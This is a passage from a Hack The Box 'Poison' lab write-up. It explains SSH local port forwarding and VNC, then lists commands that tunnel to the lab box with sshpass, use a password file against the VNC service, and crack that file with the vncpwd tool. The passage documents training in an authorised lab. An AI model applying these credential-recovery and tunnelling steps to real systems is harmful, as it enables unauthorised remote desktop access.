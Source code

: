 > **[xtightvncviewer](){:target="_blank"}** in Linux is a **VNC** (Virtual Network Computing) client application that connects to a **VNC** server and displays its remote desktop in an X window. It's part of the **TightVNC** project, which provides enhanced **VNC** functionality, including optimized encoding for low bandwidth connections.

> **[SSH port forwarding](https://builtin.com/software-engineering-perspectives/ssh-port-forwarding){:target="_blank"}**, sometimes referred to as SSH tunneling, is a method for safely transmitting data over an encrypted SSH connection between a local and distant server.  It allows users to securely connect to resources or services that firewalls could otherwise prevent or restrict.
> - When a user needs to access a resource or service located on a remote server but is unable to do so directly because of firewall settings, network configurations or private network limitations, local port forwarding is utilized.
> - ssh -L [local_port]:[destination_address]:[destination_port] [username]@[ssh_server]

```bash
mv /home/al3j0/Downloads/VNC-Viewer-7.13.1-Linux-x64.deb .
dpkg -i VNC-Viewer-7.13.1-Linux-x64.deb
# xtightvncviewer (version 1:1.3.10-9) is present and installed.

sshpass -p 'Ch---0' ssh charix@10.10.10.84 -L 5901:127.0.0.1:5901
lsof -i:5901
vncviewer 127.0.0.1:5901
# :(
vncviewer 127.0.0.1:5901 -passwd secret
# :)

git clone https://github.com/jeroennijhof/vncpwd
cd vncpwd
make
./vncpwd ../secret

sshpass -p 'Ch---0' ssh charix@10.10.10.84 -L 5901:127.0.0.1:5901
vncviewer 127.0.0.1:5901
```

<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> I **reemphasize** again that you have to take advantage of every **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** lab, to practice and look for different ways to engage it. It is an excellent way to improve every skill that a good professional in the area of information security should possess without needing to set up a lab, since the labs offered by the platform are excellent and cover all the areas that one should know. I'm going to kill the box and choose the next one, so as not to stop my learning.

<br /><br />
<img src="{{ site.img_path }}/poison_writeup/Poison_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
